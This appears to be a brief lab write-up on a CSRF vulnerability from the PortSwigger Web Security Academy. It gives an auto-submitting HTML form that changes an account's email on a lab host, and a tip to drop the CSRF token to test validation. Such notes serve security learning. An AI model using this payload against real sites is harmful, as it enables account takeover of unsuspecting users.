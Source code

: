 # CSRF Vulnerability


![****](/Portswigger-WebSecurity/CSRF/Screenshots/cssrf3.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Just remove the CSRF Token field and check if you can submit the request!